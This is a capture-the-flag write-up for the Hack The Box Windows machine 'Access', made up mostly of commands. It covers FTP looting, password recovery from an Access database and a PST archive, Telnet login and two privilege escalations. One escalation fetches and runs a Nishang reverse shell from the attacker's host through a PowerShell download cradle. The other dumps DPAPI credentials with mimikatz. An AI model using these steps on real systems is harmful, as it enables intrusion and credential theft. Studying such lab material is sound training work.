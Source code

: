# 🧭 HTB: Access

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
**Skills**: FTP enumeration, PST extraction, Telnet login, credential dumping, DPAPI decryption

---

## 🔍 Recon

```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.98
nmap -sV -sC -p 21,23,80 -oA nmap/scripts 10.10.10.98
```

**Findings**:
- [FTP](FTP) (21): Anonymous login allowed
- [Telnet](TELNET) (23)
- [HTTP](HTTP) (80): Microsoft IIS 7.5

---

## 🌐 Exploring HTTP

```bash
gobuster -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,txt -t 20
```

- No interesting directories found
- Image shown on homepage

---

## 📁 FTP File Extraction

```bash
ftp 10.10.10.98
# Login: anonymous
# Navigate and download files
cd Backups
bin
get backup.mdb

cd ../Engineer
get "Access Control.zip"
```

---

## 🧵 Analyzing backup.mdb (Microsoft Access DB)

```bash
apt install mdbtools
mdb-tables backup.mdb
mdb-export backup.mdb auth_user
```

**Findings**:
```txt
engineer : access4u@security
```

---

## 🔓 Crack PST Archive

```bash
7z x Access\ Control.zip  # Password: access4u@security
```

---

## 📬 Extract Outlook Password (readpst)

```bash
apt install readpst
readpst Access\ Control.pst
cat Access\ Control.mbox
```

**Email content**:
```txt
security : 4Cc3ssC0ntr0ller
```

---

## 💻 Shell as security via Telnet

```bash
telnet 10.10.10.98
# Login: security / 4Cc3ssC0ntr0ller

whoami
type C:\Users\security\Desktop\user.txt
```

---

## 🔎 Privilege Escalation Enumeration

```cmd
cmdkey /list
```

**Findings**:
- Cached credentials for ACCESS\Administrator
- Found `.lnk` file referencing `runas /savecred`

---

## 🔄 Method 1: PrivEsc via runas & PowerShell reverse shell

### 🛠️ Prep Nishang shell

```bash
git clone https://github.com/samratashok/nishang.git
mkdir ~/www
cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <tun0_ip> -Port 443' >> ~/www/Invoke-PowerShellTcp.ps1

# Serve it
cd ~/www
python3 -m http.server 80

# Listener
nc -lnvp 443
```

### 🏃 Execute from target

```powershell
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://<tun0_ip>/Invoke-PowerShellTcp.ps1')"
```

**Result**: Administrator shell ➜ `whoami`, then:
```powershell
type C:\users\administrator\desktop\root.txt
```

---

## 🔄 Method 2: PrivEsc via DPAPI Credential Decryption

### 📤 Extract & Encode

```cmd
certutil -encode 0792c32e... output
certutil -encode 51AB168B... output
```

### 📥 Decode on Kali

```bash
base64 -d masterkey.b64 > masterkey
base64 -d credentials.b64 > credentials
```

### 🧪 Decrypt with mimikatz on Windows

```powershell
dpapi::masterkey /in:masterkey /sid:S-1-5-21-... /password:4Cc3ssC0ntr0ller
dpapi::cred /in:credentials
```

**Extracted Administrator password**:
```
55Acc3ssS3cur1ty@megacorp
```

### 🔁 Telnet as Administrator

```bash
telnet 10.10.10.98
# Login: administrator / 55Acc3ssS3cur1ty@megacorp
cd desktop
type root.txt
```

---

## 🗂️ Beyond Root – Analyze LNK

### 🔎 On Windows

```powershell
$WScript = New-Object -ComObject WScript.Shell
$SC = Get-ChildItem *.lnk
$WScript.CreateShortcut($SC)
```

### 🔍 On Linux with pylnker

```bash
base64 -d lnk.b64 > lnk
python pylnker.py lnk
```